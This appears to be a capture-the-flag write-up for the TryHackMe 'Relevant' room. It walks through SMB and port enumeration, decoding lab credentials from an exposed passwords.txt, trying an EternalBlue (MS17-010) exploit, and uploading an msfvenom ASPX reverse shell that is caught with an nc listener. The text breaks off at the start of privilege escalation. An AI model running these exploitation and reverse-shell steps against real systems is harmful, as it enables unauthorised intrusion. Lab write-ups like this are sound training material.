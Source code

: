 # Relevant

**Room Link:** [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)&#x20;



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.145.102
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

```
nmap -p- 10.10.145.102
```

### 135/TCP - msrpc

```
nbtscan 10.10.145.102
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - microsoft-ds

There is a share but we couldn't access with smbget but smbclient worked. There was only one file called passwords.txt

<pre><code>smbclient -L http://10.10.179.48
smbget -R smb://10.10.145.102/nt4wrksv
<strong>smbclient  \\\\10.10.145.102\\nt4wrksv 
</strong><strong>smb: \> ls
</strong>smb: \> get passwords.txt 
smb: \> exit

</code></pre>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Can't download files with smbget</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption><p>Downloaded password file</p></figcaption></figure>

The file contained two bade64 encoded strings which decoded into users and passwords

```
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
```

**Credentials Found**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### Scanning for vulnerabilities

Decided to scan for vulnerabilities and nmap detected that the host is vulnerable to  m17-010 (EternalBlue)

```
sudo nmap 10.10.145.102 -p80,135,139,445,3389 --script *vuln*
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

The exploit did not work as expected. It seems the credentials do not work for smb so now we must explore a different route.

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bob:!P@$$W0rD!123'
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bill:Juw4nnaM4n420696969!$$$'
```



## TCP/80 - HTTP

```
gobuster dir -u http://10.10.179.48 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```



We can see the passwords.txt file from the browser

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

We can upload files to the nt4wrksv and view the files on webserver on  port 49663 so that means we should be able to add a reverse shell.

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.179.48  LPORT=1337 — platform windows -a x64 -f aspx -o shell.aspx
smbclient \\\\10.10.231.48\\nt4wrksv
put shell.aspx

```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

```
nc -lvnp 1337
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
systeminfo
whoami /priv
```

Kali

